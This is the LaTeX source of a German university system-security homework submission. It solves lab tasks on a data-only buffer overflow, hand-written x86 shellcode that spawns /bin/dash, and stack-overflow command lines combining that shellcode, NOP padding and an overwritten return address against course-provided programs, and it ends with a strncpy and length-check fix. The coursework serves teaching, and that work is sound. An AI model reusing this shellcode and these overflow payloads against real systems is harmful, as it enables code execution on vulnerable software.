\documentclass[]{scrreprt}
\usepackage{listings}
\usepackage{graphicx}
\lstset{numbers=left}
%opening
\title{Systemsicherheit - 3. Übung}
\author{Dennis Rotärmel, Niklas Entschladen, Tobias Ratajczyk, Gruppe Q}

\begin{document}
	\maketitle
	
	\newpage
	\thispagestyle{empty}
	\section*{Aufgabe 1: Size Directives}
	
	\renewcommand{\labelenumi}{\alph{enumi})}
	\begin{enumerate}
		\item optional
		\item erforderlich
		\item erforderlich
		\item optional
		\item fehlerhaft
	\end{enumerate}
	\section*{Aufgabe 2: Data-Only Attack}
	\begin{figure}[h]
		\centering
\includegraphics[width=1.1\textwidth]{figure/1_bo_success.png}
		\caption{\label{fig:bosuccess}Erfolgreicher Buffer Overlow}
	\end{figure}
	Wie in Abbildung \ref{fig:bosuccess} zu sehen ist, ist eine Data-Only Attack in dem bereitgestellten Programm möglich. Als Eingabe dienen hierbei 16 "{}A"{}Zeichen, welche das Array \verb|password_buffer| füllen. Die Größe des Buffers ist hierbei der Größe des Arrays zu entnehmen und beträgt 128 Bytes. Zusätzlich wird eine "{}1"{} an den übergebenen String angefügt, welche den Wahrheitswert der Variablen \verb|auth_flag| auf wahr setzt. Alternativ funktioniert auch die Eingabe ''\texttt{ichHasseSyssec!!!1}'' \newline
	Durch Tausch der Zeilen 8 und 9 ändert sich auch die Reihenfolge, in welcher die lokalen Variablen der Funktion auf den Stack gelegt werden.
	Somit liegt (vorausgesetzt, dass hohe Adressen "oben" liegen) das übermittelte Passwort über der Variablen, welche eine erfolgreiche Authentifizierung kennzeichnet.
	Eine Authentifizierung mithilfe eines Buffer Overflows wie zuvor ist somit nicht mehr möglich, da jene Variable nun nicht mehr überschrieben werden kann. 
	\begin{figure}[h]
		\centering
\includegraphics[width=1.1\textwidth]{figure/2_bo_failure.png}
		\caption{Hier funktioniert die zuvor verwendete Methodik nicht}
	\end{figure}
	\section*{Aufgabe 3: Shellcode}
	\begin{lstlisting}[frame=single, caption = kommentierter Maschinencode, captionpos = b]
global _start

_start:
;----------------------------------
; TODO
; Your shellcode spawning /bin/dash goes here
xor eax, eax 	;eax leeren
push eax 	;0-Byte in den Stack geben
push 68736164h 	;Dash auf den Stack pushen
push 2f2f2f2fh 	;4 ''/'' als Padding
push 6e69622fh 	;''bin'' auf stack pushen
mov ebx, esp 	;2. Parameter des syscalls (Pointer auf Stack)
mov al, 0xb	;1. Parameter des syscalls (execv)
int 0x80	;interrupt: syscall

; ------------ End of file ------------ 
		
	\end{lstlisting}
	\section*{Aufgabe 4: Stack-Based Buffer Overflow}
	\subsection*{a)}
	Das Programm ''basic\_overflow'' muss folgendermaßen in der Shell eingegeben werden:
	\begin{lstlisting}[frame=single, caption="Skript für Aufgabe 4a) (Code entspricht einer Zeile!), captionpos=b"]
./basic_overflow \$(python -c 'print "\x31\xc9\xf7\xe1\x51
\x68\x64\x61\x73\x68\x68\x2f\x2f\x2f\x2f\x68\x2f\x62\x69\x6e
\x89\xe3\xb0\x0b\xcd\x80" + "\x90"*86 + "\x4c\xcf\xff\xff"')
	\end{lstlisting}
	
	Dabei ist das \$-Zeichen zu beachten, welches eine Subshell aufruft, womit man in einem Shellbefehl einen weiteren Befehl ausführen kann.
	Die Angabe ist hier in Little-Endian. Der erste Teil ist der Shellcode (von $\backslash$x31 bis zum ersten +) danach kommt das NOP-Padding. Nach dem Padding kommt die Return-Adresse, welches das Programm ausgibt. Hier wurde der Shellcode etwas umgeformt.
	\subsection*{b)}
	\texttt{---}
	\pagebreak
	\section*{Aufgabe 5:  Smashing the Stack for Fun and Exam Prep}
	\subsection*{a)}
	\begin{figure}[h]
		\centering
		\includegraphics[width=1.0\textwidth]{figure/Bild5a} 
		\caption{Stackframes}
	\end{figure}
	\subsection*{b)}
	Der Kommandozeilenparamter könnte wie folgt aussehen:\newline
	\begin{lstlisting}[frame=single, caption={Kommandozeilenparamter ($\hat{=}$ einer Zeile)},captionpos=b]
\x90\x90\x90\x90\x90\x90\x90\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73
\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80\x90\x90\x90\x90
\xEF\xBE\xAD\xDE
	\end{lstlisting}
	Die Instruktionen ''$\backslash$x90'' dienen hierbei als NOP-slide und als zusätzliches Padding um den Buffer zu überschreiben. Am ende muss die Adresse \texttt{0xDEADBEEF} in Little-Endian stehen. Damit wird die return-Adresse überschrieben und der Shellcode wird dadurch aufgerufen.\newline
	Wenn die Adresse des password\_buffers \texttt{0xDEAD0070} lautet, dann wäre dies problematisch aufgrund des 0-Byte, da bei der \texttt{strcpy} Funktion dieses Byte als das Ende eines Strings interpretiert wird. Somit wäre es nicht möglich die return-Adresse vollständig zu überschreiben.
	\subsection*{d)}
	Um diesen Bug zu fixen, ist es notwendig, vor Zeile 12 des Codes das übergebene Passwort auf die Länge zu überprüfen. Die \texttt{strcpy} Funktion sollte nur dann Ausgeführt werden, wenn die Länge des eingegebenen Passwort $\leq 27$ ist.
	Auch ist es möglich, statt \texttt{strcpy}, \texttt{strncpy} zu verwenden.
	
\end{document}